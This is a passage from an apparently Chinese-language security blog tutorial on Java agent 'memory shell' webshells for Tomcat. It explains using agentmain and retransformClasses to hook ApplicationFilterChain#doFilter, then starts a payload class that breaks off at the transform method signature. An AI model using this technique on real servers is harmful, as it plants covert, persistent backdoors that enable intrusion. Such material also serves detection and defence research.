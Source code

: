 ```java
```

对应的，在agentmain里手动去调用retransform->retransformClasses

```java
public class attachAgent {

    public static void agentmain(String agentArgs, Instrumentation inst) throws UnmodifiableClassException {
//        for (Class clazz : inst.getAllLoadedClasses()) {
//            System.out.println(clazz.getName());
//        }
        CustomClassTransformer customClassTransformer = new CustomClassTransformer();
        inst.addTransformer(customClassTransformer);
        customClassTransformer.retransform(inst);
    }
}
```

可以很清楚的说，premain和agentmain的区别就在于这个retransformClasses方法，retransformClasses在attach时会自动调用Transform的transform方法

>不过后面我们会提到，除了retransformClasses可以运行时修改类外，redefineClasses也可以进行修改，冰蝎就是用的第二种利用方式，而这两种修改类的方式对应的攻-防都是完全不同的，暂时略过



## Agent内存马实现

Agent内存马一定用的是agentmain，也就是运行时Hook的方式

那么该修改哪个类呢？

首先，选择一个程序必会经过的方法，这样能保证内存马有效。其次，为了方便回显，最好是选择方法体内能访问到request和response的方法。在Tomcat下有个非常合适的方法：ApplicationFilterChain#doFilter，如果这个类被ban了，又知道目标源码，可以选择去Hook Controller、StandardContext.service等，操作空间非常大

同时，为了保证稳定触发，我们的恶意代码应该塞在doFilter的最前面

代码第一步是向目标写jar，如果目标对jar落地有检测那直接G（这时候冰蝎的一种不用上传jar的agent马就非常秀了），修改类字节码用到的javassist库（如果手动调ASM指令也太曹了）

有同学就问了，MF 中添加 Can-Retransform-Classes: true 或 Can-Redefine-Classes: true不是个死条件吗？是啊，但是它是打包在我们自定义的agent.jar中的，而不是要求服务器上必须有该MF

OK，直接给出payload吧

一个自定义的CustomClassTransformer

```java
package agent;

import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;
import javassist.LoaderClassPath;

import java.io.ByteArrayInputStream;
import java.lang.instrument.ClassFileTransformer;
import java.lang.instrument.IllegalClassFormatException;
import java.lang.instrument.Instrumentation;
import java.lang.instrument.UnmodifiableClassException;
import java.security.ProtectionDomain;

public class CustomClassTransformer implements ClassFileTransformer {
    public static final String ClassName = "org.apache.catalina.core.ApplicationFilterChain";

    @Override
    public byte[] transform(ClassLoader loader, String classname,
                            Class<?> classBeingRedefined,
                            ProtectionDomain protectionDomain,
                            byte[] classfileBuffer) throws IllegalClassFormatException {
```